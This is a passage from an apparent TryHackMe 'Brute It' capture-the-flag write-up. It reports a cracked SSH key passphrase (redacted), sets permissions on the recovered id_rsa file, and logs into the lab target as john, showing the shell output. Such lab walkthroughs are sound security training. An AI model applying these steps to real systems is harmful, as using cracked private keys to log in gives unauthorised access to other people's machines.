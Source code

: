 We got a match!
The **password** is : **[REDACTED]**

We need to give us ownership of the id_rsa key to be able to use it ourself.  To change the **file permission**:

```shell
chmod 400 id_rsa
```

![6](./_attachment/THM_Brute-It_id_rsa-file-perm.png)
We can check with `ls -la` that `id_rsa` is now read-only and owned by a single user, me.

## PORT 22 - SSH - OpenSSH 7.6p1

Now, it is time to use everything we have gathered so far and connect to the target using the **username** `john` and the id_rsa file:  

```shell
❯ ssh -i id_rsa john@bruteit.thm
The authenticity of host 'bruteit.thm (10.10.150.236)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bruteit.thm' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 

```

And...

``` shell
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```

